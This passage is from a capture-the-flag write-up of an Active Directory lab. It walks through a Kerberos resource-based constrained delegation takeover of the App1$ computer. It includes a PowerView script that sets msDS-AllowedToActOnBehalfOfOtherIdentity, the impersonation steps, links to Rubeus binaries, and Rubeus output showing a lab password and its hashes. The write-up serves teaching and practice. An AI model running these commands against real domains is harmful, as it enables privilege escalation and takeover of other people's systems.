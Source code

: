 The configuration `msDS-AllowedToActOnBehalfOfOtherIdentity` was not present in the first version of the challenge and was probably introduced by an earlier solver. If that configuration was not present we need to create it. Since the `writeradmin` has `GenericWrite` over `App1$`, we could simply update the computer object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable `App2$` control over it. Taken from [here](https://burmat.gitbook.io/security/hacking/domain-exploitation).

```powershell
## we can write our delegation attribute to the DC with the following:
$UserSid = Get-DomainUser 'App1$' -Properties objectsid | Select -Expand objectsid
## we already did know the SID of 'App1$' and we could pass it directly (S-1-5-21-3888316195-1058498269-834682652-1105)
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer app1.oposec.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

After that we could proceed to carry out the next steps.

## `App1$` takeover

By searching for attacks that leverage this `AllowedToActOnBehalfOfOtherIdentity` functionality, we quickly find [*Kerberos Resource-based Constrained Delegation: Computer Object Take Over*](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution). While this is a several steps attack, we already have an account which has the `AllowedToAct` rights, thus we can focus on a subset of the steps of the attack:

1. `msDS-AllowedToActOnBehalfOfOtherIdentity` enables `App2$` to impersonate and authenticate any domain user that can then access the target system `App1$`. In simple terms this means that the target computer `App1$` is happy for the computer resource `App2$` to impersonate any domain user if they want to access anything on `App1$`;
2. `App1$` trusts `App2$` (due to the `msDS-AllowedToActOnBehalfOfOtherIdentity`);
3. We request Kerberos tickets for `App2$` with ability to impersonate `oposec.local\app1admin` who is admin of `App1$`;
4. Takeover complete.

In order to carry such attack we need something that can craft Kerberos tickets for our purposes. By following the tutorial of *ired.team*, we can use [Rubeus](https://github.com/GhostPack/Rubeus) for that. You can find pre-compiled binaries [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).

Additionally, to avoid any issue, both `oposec.local` and `app1.oposec.local` should be added to the `hosts` file.

The first thing we need to do is to generate a RC4 hash of the password we have for `App2$`:

```powershell
PS C:\ .\Rubeus.exe hash /password:MdXShCaeOviiTzxk3g0G /user:App2 /domain:oposec.local

Rubeus  v1.6.4

[*] Action: Calculate Password Hash(es)

[*] Input password             : MdXShCaeOviiTzxk3g0G
[*] Input username             : App2
[*] Input domain               : oposec.local
[*] Salt                       : OPOSEC.LOCALapp2
[*]       rc4_hmac             : EED530845242DD4013C0BEF37787EA33
[*]       aes128_cts_hmac_sha1 : 7520D771E68ECBDD07DF87D50B335F9C
[*]       aes256_cts_hmac_sha1 : 6498A898DB822E6C554FF12D069A7718975C11C169809DD7B516B6A67A76FE59
[*]       des_cbc_md5          : 15FD1054A20DF2A4
```
